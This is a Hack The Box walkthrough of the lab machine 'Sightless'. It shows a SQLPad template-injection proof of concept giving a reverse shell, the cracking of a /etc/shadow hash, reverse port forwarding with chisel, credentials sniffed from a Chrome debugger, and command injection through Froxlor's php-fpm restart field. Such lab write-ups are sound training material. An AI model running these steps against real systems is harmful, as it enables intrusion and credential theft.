 ```yaml
---
title: "Sightless Walkthrough(Hack The Box)"
date: 2025-04-03
draft: true
description: "A short Walkthrough for the box Sightless"
tags: ["Easy", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
 
---
```

## Reconnaissance & Enumeration
- Network scan reveals three open ports
![Pasted image 20241221001932.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221001932.png?raw=true)
- Which are `FTP`, `SSH`, `http(80)`. Port `21(FTP)` is very unusual here. 
![three](https://media1.tenor.com/m/zZvOQkS9VysAAAAC/it%E2%80%99s-nice-it%E2%80%99s-different.gif)
- Initial Enumeration reveals that the page uses `nginx/1.18.0`
- Port `80` had a Slightless Titled page, while scrolling through I found a button which redirected to `sqlpad.sightless.htb`. It's a different domain so I quickly added it to my hosts file and visited it.
- Found a RCE vulnerability from google search: [POC](https://github.com/shhrew/CVE-2022-0944.git)

{{< badge >}} CVE-2022-0944 {{< /badge >}}
Template injection in connection test endpoint leads to RCE in GitHub repository sqlpad/sqlpad prior to 6.10.1.

## Exploitation
- First I cloned this [repo](https://github.com/shhrew/CVE-2022-0944) and then I installed all required packages.
```bash
pip3 install -r requirements.txt
```
- Then I execurted the POC and eventually got the shell
```bash
python3 main.py http://sqlpad.sightless.htb/ 10.10.14.12 6001
```
- There was a sqlite file in the current working directory but, there wasn't any way to transfer it to our machine cause no versions of python found om the system.
- Then I got to know that this is a docker image.
![Pasted image 20241221022335.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221022335.png?raw=true)
- Cause it is weird to have this directory here.
- Anyway from `/etc/passwd` I got know about the two users with bash permissions
![Pasted image 20241221022519.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221022519.png?raw=true)
- From shadow I got the hash of user michael for cracking. Ignore the root hash i am pretty sure it would be a waste of time.
![Pasted image 20241221022725.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221022725.png?raw=true)
- After finding the module, I cracked it with my goto tool
```bash
 hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```
- then I logged in via SSH
- Got {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20241221023004.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221023004.png?raw=true)
![so-far-so-good](https://media1.tenor.com/m/Ej4XZ8-ThvMAAAAC/positive-bear.gif)

## Privilege Escalation
- While doing post-enumeration I found some interesting local ports using `ss -tunlp` 
- Too many ports don't ya think. Kinda sus if you ask me
![Pasted image 20241221023121.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221023121.png?raw=true)
![sus](https://media1.tenor.com/m/RNVIdsfRXz0AAAAd/hamstermert.gif)
- So I decided to forward all the weird looking ports to my machine
- On my machine
```bash
chisel server -p 7001 --reverse
```
- On the target machine
```bash
./chisel client 10.10.14.12:7001 R:3306:localhost:3306 R:44771:localhost:44771 R:8080:localhost:8080 R:43047:localhost:43047 R:41049:localhost:41049 R:3000:localhost:3000 R:33060:localhost:33060
```
- Not gonna lie that's a lot of ports
- It seems that port `8080` is running `Froxlor`, which required credentials to login
{{< details summary="What is Froxlor" >}} The server administration software for your needs. Developed by experienced server administrators, this panel simplifies the effort of managing your hosting platform. {{< /details >}}
- All the remaining ports seems to be suspicious cause most are non-http ones
- Some of the ports are using chrome debugger internally to do some tasks.
- So I opened chrome and navigated to `chrome://inspect/#devices` and added all the forwarded ports using configure.
![Pasted image 20241221023839.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221023839.png?raw=true)
- Got some hits. I clicked inspect and saw it automatically logging into Froxlor with credentials.
- From the Network tab, I auth request I saw the credentials in plaintext.
![Pasted image 20241221024137.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221024137.png?raw=true)
- Used those creds and got into Froxlor
- While hanging around, I discovered an potential endpoint that could lead to command injection
![Pasted image 20241221024348.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221024348.png?raw=true)
- Created a New PHP version from PHP-FPM versions
- In the php-fpm restart command I filled it with `cp /root/root.txt /home`
- Then went to settings and then restarted the php-fpm
- After 3-5 min I got the file in the home directory but we need permissions so again using the same method I modified the command to `chmod 777 /home/root.txt` This will change permissions.
![Pasted image 20241221024823.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221024823.png?raw=true)
- Got the {{< keyword >}} User flag {{< /keyword >}} Then I realized that from the start I should've changed permissions for root directory itself
![Pasted image 20241221024851.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221024851.png?raw=true)

{{< typeit >}} I hope you liked my walkthrough if you do please share it with your connections. That's it see you later {{< /typeit >}}

![see-ya](https://media1.tenor.com/m/DF0rzVHsu14AAAAC/xranz45-xranz54.gif)
